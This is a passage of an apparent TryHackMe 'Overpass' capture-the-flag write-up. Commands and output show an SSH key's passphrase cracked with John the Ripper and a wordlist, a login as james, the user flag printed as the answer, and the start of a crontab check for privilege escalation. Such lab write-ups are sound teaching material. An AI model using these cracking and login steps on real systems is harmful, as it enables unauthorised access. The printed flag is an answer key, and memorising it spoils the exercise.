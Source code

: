 ~~~
unknown@kali:/data/tmp/files$ /data/src/john/run/ssh2john.py ssh.key > ssh.hash
unknown@kali:/data/tmp/files$ /data/src/john/run/john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (ssh.key)
1g 0:00:00:05 DONE (2020-08-19 16:47) 0.2000g/s 2868Kp/s 2868Kc/s 2868KC/sa6_123..*7¡Vamos!
Session completed. 
~~~

The password (`james13`) is found. Let's connect as `james` and get the user flag:

~~~
unknown@kali:/data/tmp/files$ ssh -i ssh.key james@10.10.150.228
load pubkey "ssh.key": invalid format
Enter passphrase for key 'ssh.key': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Aug 19 14:48:09 UTC 2020

  System load:  0.15               Processes:           88
  Usage of /:   22.4% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.150.228
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
~~~

Answer: `thm{65c1aaf000506e56996822c6281e6bf7}`

# Escalate your privileges and get the flag in root.txt

Analyzing the crontab shows that there is a script executed by root every minute:

~~~
james@overpass-prod:~$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
~~~